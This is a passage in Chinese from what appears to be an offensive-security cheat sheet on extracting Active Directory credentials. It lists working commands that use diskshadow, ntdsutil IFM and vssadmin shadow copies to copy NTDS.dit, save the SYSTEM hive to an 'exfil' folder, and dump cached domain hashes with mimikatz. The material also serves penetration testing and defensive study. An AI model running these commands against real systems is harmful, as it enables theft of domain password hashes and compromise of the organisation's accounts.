 需要注意的是，DiskShadow 二进制文件需要从 C:\Windows\System32 路径执行。如果从其它路径调用它，脚本将无法正确执行。
```
diskshadow.exe /s c:\diskshadow.txt
```

直接从解释器运行以下命令，将列出系统的所有可用 volume shadow copy。
```
diskshadow
LIST SHADOWS ALL
```

SYSTEM 注册表 hive 也应该被复制，因为其包含了解密 NTDS 文件内容所需的密钥。
```
reg.exe save hklm\system c:\exfil\system.bak
```

**ntdsutil**
```
ntdsutil
activate instance ntds
ifm
create full C:\ntdsutil
quit
quit
```
它将为我们生成两个新文件夹：Active Directory 和 Registry。NTDS.DIT 文件将被保存到 Active Directory 中，而 SAM 和 SYSTEM 文件则将被保存到 Registry 文件夹中。

**vssadmin**

volume shadow copy 是一个 Windows 命令行实用程序，管理员可以使用它备份计算机，卷以及文件（即使操作系统正在使用这些资源）。Volume Shadow Copy 作为一个服务运行，并要求文件系统的格式为 NTFS（默认情况下 windows 操作系统文件格式均为 NTFS）。从Windows 命令提示符执行以下命令，将会创建一个 C 盘的快照，这样我们就可以将其复制到另一个位置（如本地文件夹，网络文件夹或可移动介质）以获取它的访问权限。
```
vssadmin create shadow /for=C:
```
由于我们已经将 C 盘中的所有文件都复制到了另一个位置（HarddiskVolumeShadowCopy1），因此它们不会被操作系统直接使用，我们可以随意访问并复制其中的文件。使用 copy 命令将 NTDS.DIT 和 SYSTEM 文件，复制到本地名为 ShadowCopy 的驱动中的新建文件夹中。
```
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\NTDS\NTDS.dit C:\ShadowCopy
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SYSTEM C:\ShadowCopy
```

---

### mscash

Mscash 是微软的一种散列算法，用于在登录成功后将缓存的域凭证存储在系统本地。缓存的凭证不会过期。域凭证被缓存在本地系统上，这样即使DC宕机，域成员也可以登录机器。值得注意的是，mscash hash 是不可 PTH 的

- mimikatz
    ```bash
    lsadump::cache  # 获取 SysKey 用于解密 NLKM 和 MSCache(v2)
    ```

---
